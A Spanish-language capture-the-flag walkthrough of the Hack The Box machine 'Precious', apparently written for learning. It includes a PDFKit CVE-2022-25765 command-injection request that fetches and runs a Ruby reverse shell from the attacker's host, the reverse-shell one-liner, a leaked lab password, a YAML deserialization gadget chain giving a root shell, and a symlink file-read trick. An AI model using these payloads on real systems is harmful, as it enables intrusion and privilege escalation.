


Precious es una máquina linux sencilla creada por Nauten en Hack the Box que cuenta con un servidor web que utiliza una versión de PDFKit vulnerable a CVE-2022-25765, que puede ser explotada para ejecutar comandos como el usuario ruby. Dentro del directorio personal de este usuario encontramos una carpeta que contiene un archivo de configuración con las credenciales de otro usuario llamado henry. Como henry, podemos ejecutar un script en particular como root a través del comando sudo. Este script es vulnerable a una forma de deserialización de YAML, que nos lleva a la ejecución de código como root.

# Initial Recon

Primero vamos a configurar nuestro entorno y ejecutar un puerto TCP.

```bash
# mhil4ne@Kali
export rhost="10.10.11.189" # Target IP address
export lhost="10.10.14.4" # Your VPN IP address
echo rhost=$rhost >> .env
echo lhost=$lhost >> .env
. ./.env && sudo nmap -sS -p- --open --min-rate 3000 -n -Pn -vvv $rhost -oG nmap
```

Los puertos TCP abiertos reportados en el escaneo incluyen:

| Port | Service | Product | Version |
|------|---------|---------|---------|
| 22   | ssh     | OpenSSH | 8.4p1   |
| 80   | HTTP    | nginx   | 1.18.0  |

l escaneo también informa que el puerto 80 responde con una redirección a http://precious.htb/ . Añadamos este nombre de host a nuestro archivo /etc/hosts.

# Web

Empezaremos visitando http://precious.htb/ en nuestro navegador favorito.



La página aparentemente tiene alguna funcionalidad que convertirá el contenido de una URL dada en un documento PDF.

## PDF Generator

Al enviar una URL ficticia a través del formulario web, observamos una petición de nuestro navegador con BurpSuite.



La petición sólo pasa la URL enviada al servidor. Vamos a probar esta funcionalidad en nuestro propio servidor HTTP.

```bash
# mhil4ne@Kali
mkdir share && cd share
echo '<p>Hello!</p>' > index.html
python3 -m http.server --bind $lhost 8080
```

```bash
# mhil4ne@Kali
curl -d "url=http://$lhost:8080/" http://precious.htb/ -o response.bin
```

Recibimos una petición a nuestro servidor HTTP y posteriormente recibimos el resultado PDF.

```bash
# mhil4ne@kali
file response.bin # The response body is a PDF document
xdg-open response.bin # Open the document
```

El documento contiene el texto «¡Hello!», lo que es de esperar porque ese es el contenido que teníamos antes en nuestro sitio. Comprobando los metadatos del documento con exiftool, descubrimos que el campo Creador menciona que el documento se generó utilizando un producto identificado como PDFKit v0.8.6.

## CVE-2022-25765

Después de algunas investigaciones, determinamos que esta versión de pdfkit es vulnerable a CVE-2022-25765, lo que significa que potencialmente podríamos inyectar comandos del sistema operativo como se explica aquí. Intentemos explotar el bug para establecer una sesión de shell inversa con PwnCat. Usaremos una shell inversa escrita en Ruby porque sabemos que Ruby está instalado ya que PDFKit está escrito en Ruby.

```bash
# mhil4ne@Kali
mkdir -p share && cd share
rb="require 'socket';spawn('sh',[:in,:out,:err]=>TCPSocket.new('$lhost',8443))"
echo "$rb" > index.html # Write ruby reverse shell to web index
python3 -m http.server --bind $lhost 8080 &>/dev/null & # Serve payload
pwncat-cs -m linux -l $lhost 8443 # PwnCat listener | Install: `pip3 install pwncat-cs`
```

```bash
# mhil4ne@Kali
curl precious.htb -d "url=http://%2520%60curl%20$lhost:8080|ruby%60" # Trigger payload
```

# Privilege Escalation

## Ruby

Nuestra sesión de shell inversa está en el contexto del usuario ruby. En el directorio principal de este usuario, encontramos el archivo ~/.bundle/config que contiene las credenciales potenciales

```bash
# ruby@precious.htb (PwnCat)
find ~ -type f # We find a configuration file of sorts
cat ~/.bundle/config # Let's read it
```

El usuario henry, asociado con la contraseña Q3c1AqGHtoI0aXAYFH, también está presente en la máquina actual con la misma contraseña.

```bash
# mhil4ne@Kali
pwncat-cs ssh://henry@precious.htb # password is Q3c1AqGHtoI0aXAYFH
```

## Henry

Como henry, podemos ejecutar un comando específico como root a través de sudo.

```bash
# henry@precious.htb (SSH)
sudo -l
```

Echemos un vistazo a este script y veamos lo que hace.

```bash
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Este script no hace mucho más que llamar a YAML.load sobre el contenido del fichero dependencies.yml{:.filepath} de nuestro directorio de trabajo. Al investigar las vulnerabilidades que afectan a YAML.load, descubrimos que no es seguro utilizarlo con datos suministrados por el usuario. También nos encontramos con este maravilloso post que describe una cadena de gadgets que potencialmente podríamos utilizar para ejecutar comandos como root. Vamos a modificar el comando dentro de la carga útil YAML del post para generar un shell interactivo de root

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -pi"
         method_id: :resolve
```

Ahora con el payload YAML dependencies.yml{:.filepath} en nuestro directorio de trabajo, ejecutamos el script vulnerable con sudo

```bash
# henry@precious.htb (SSH)
sudo /usr/bin/ruby /opt/update_dependencies.rb # trigger the payload
```

El comando genera con éxito un intérprete de comandos raíz, desde el que podemos leer la bandera final en /root/root.txt{:.filepath}.

# Alternative Solution

Otra forma en la que podríamos obtener la bandera raíz es utilizando el script en /opt/update_dependencies.rb{:.filepath} para leer archivos a través de un enlace simbólico. Cuando el script busque dependencies.yml{:.filepath} en el directorio de trabajo, encontrará un enlace simbólico plantado que apuntará a /root/root.txt{:.filepath}. Cuando el script intente analizar el archivo como YAML, mostrará un error con el contenido del archivo.

```bash
# henry@precious.htb (SSH)
cd $(mktemp -d)
ln -s /root/root.txt ./dependencies.yml # create symlink
sudo /usr/bin/ruby /opt/update_dependencies.rb # read /root/root.txt
```